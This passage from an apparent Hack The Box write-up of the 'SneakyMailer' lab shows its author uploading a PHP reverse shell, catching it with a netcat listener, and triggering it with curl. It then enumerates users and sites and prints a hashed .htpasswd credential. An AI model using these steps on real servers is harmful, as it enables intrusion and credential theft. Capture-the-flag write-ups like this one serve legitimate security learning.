 ### Web Shell
Leveraging the dev access, we're able to upload a [php web shell](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php) and gain remote access to the server.  
`>> put shell.php`

Start our netcat listener  
`>> nc -lvnp 4444`

Call our uploaded php script  
`>> curl http://dev.sneakycorp.htb/shell.php`  
![Shell](/assets/img/htb/HTB-SneakyMailer/Foothold_Shell.png)

## Enumeration
We've managed to gain access to the server, but only as a low level www-data user. Looking around the box, we're able to see two users in the `/home` directory: low, and vmail. We've seen low referenced before in the emails, and lookinng their home directory shows they're the user we want to eventually pivot to.

Continuing through the box, we see three sites hosted in the `/var/www` directory: sneakycorp.htb and dev.sneakycorp.htb which we found earlier, and a new site pypi.sneakycorp.htb, running on port 8080.  
![Pypi](/assets/img/htb/HTB-SneakyMailer/Enumeration_Pypi.png)

Looking in the `/var/www/pypi.sneakycorp.htb` directoy, we find an .htpasswd file containing the following hashed credentials:  
pypi:$apr1$RV5c5YVs$U9.OTqF5n8K4mxWpSSR/p/
